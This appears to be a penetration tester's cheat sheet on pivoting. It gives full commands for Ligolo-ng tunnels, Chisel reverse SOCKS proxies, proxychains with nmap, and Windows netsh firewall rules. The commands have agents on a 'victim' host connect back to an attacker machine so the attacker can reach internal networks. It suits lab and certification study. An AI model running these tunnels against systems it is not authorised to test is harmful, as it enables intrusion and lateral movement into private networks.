 > [!info] Always try to use **[Ligolo-ng](https://github.com/nicocha30/ligolo-ng)**

**[Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding)**

#### Ligolo-ng

```text
Lets define some variables for the example:
	Our attack machine would be 192.168.45.211
	Our victim machine would be 192.168.222.63
	The unreachable network would be 10.4.222.0/24
	The unreachable machine we want to attack 10.4.222.215


- Setup in attack machine:
	# sudo ip tuntap add user $USER mode tun ligolo
	# sudo ip link set ligolo up
	# sudo ip route add 10.4.222.0/24 dev ligolo (Here we specify that the network route should go through our ligolo device)
	# ./proxy -selfcert (Note the port from the output: Listening on 0.0.0.0:11601)

- Launch agent in victim machine:
	# ./agent -connect 192.168.45.211:11601 -ignore-cert

- In ligolo console:
	# session
	# start
	# listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80 
		Here we specify a port forwarding where all connections recieved in the victim machine at port 8080 would be redirected to our attack achine at port 80. We can change this ports
		If error "bind: permission denied" appear we need to specify another unused port greather than 1000

- To clear everything once we have finished
	# sudo ip route del 10.4.222.0/24 dev ligolo
	# sudo ip link del ligolo
```


#### Chisel

If we have a SSH connection, use SSH Port forwarding instead of Chisel (ssh -D 8081 [root@10.129.160.194](mailto:root@10.129.160.194))

**[Reverse Dynamic SOCKS Proxy](https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/#reverse-dynamic-socks-proxy)

It is useful when we want to access to the host & multiple ports that cannot be directly accessible from local machine.

```bash
# In local machine (attack)
chisel server -p 9999 --reverse

# In remote machine (victim)
chisel client 10.0.0.1:9999 R:9000:socks

```

Then modify **`/etc/proxychains.conf`** in local machine.

Comment out the line of **"socks4"**.

```bash
# /etc/proxychains.conf
...
socks5 127.0.0.1 9000

```

To confirm if we can reach the desired host and port, run **nmap** with **proxychains**.

```bash
proxychains nmap localhost

```

#### Windows - Firewall problems

If we are facing firewall in Windows we can open the port to establish the port forwarding

```shell
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
```

Now, to delete the rule and port forward

```shell
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```